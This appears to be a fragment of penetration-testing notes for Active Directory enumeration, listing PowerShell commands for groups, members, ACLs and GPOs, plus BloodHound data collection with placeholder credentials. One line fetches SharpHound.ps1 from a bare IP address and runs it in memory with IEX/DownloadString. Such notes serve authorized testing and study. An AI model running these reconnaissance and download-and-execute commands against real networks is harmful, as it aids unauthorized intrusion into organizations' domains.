```
$RESULT
```
##### LOCAL MACHINE - LIST ALL GROUPS
```
Get-LocalGroup
Get-LocalGroup | ft -AutoSize | Out-String -Width 4096
```
```
Get-Netlocalgroup
Get-Netlocalgroup -computer server01
```
##### LOCAL MACHINE - LIST ALL MEMBERS OF ALL GROUPS
```
$DomainGroups = Get-LocalGroup
foreach ($Group in $DomainGroups)
{
    Write-Host "Group: $($Group.Name)" -background yellow -foreground black
    $GroupMembers = Get-LocalGroupMember -Group $Group
    foreach ($GroupMember in $GroupMembers)
    {
        Write-Host "    Member Name: $($GroupMember.Name)"
    }
}
```
##### LOCAL MACHINE - LIST ALL PERMISSIONS
```
(Get-ACL "AD:$((Get-ADComputer -Identity 'TECH-DC01').distinguishedname)").access | Select IdentityReference, AccessControlType, ActiveDirectoryRights
```



##### POWERVIEW - IMPORT
```
Import-module .\Microsoft.ActiveDirectory.Management.dll
Import-module .\activedirectory.psd1
```
##### LIST - GPOS(POWERVIEW)
```
get-netgpo
get-netgpo -computer server01
```
# BLOODHOUND
## TECHNIQUES
##### BLOODHOUND - PYTHON
```
git clone https://github.com/fox-it/BloodHound.py
cd BloodHound.py
python setup.py install
```
```
bloodhound-python -u username -p password -dc xx.aa.com --disable-auto-gc -d aa.com         --CHECAR OPÇÔES DEFAULT , INTERESSANTE LIMITAR AOS DOMAIN CONTROLELRS
bloodhound-python -u username -p password -dc xx.aa.com --disable-auto-gc -d aa.com -c all   --TODOS O S METODOS DE COLLECTION
```
##### BLOODHOUND - POWERSHELL
```
IEX (New-Object System.Net.WebClient).DownloadString("http://175.12.80.10:8080/SharpHound.ps1")
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/SharpHound.ps1  -Outfile SharpHound.ps1
import-module .\SharpHound.ps1
```
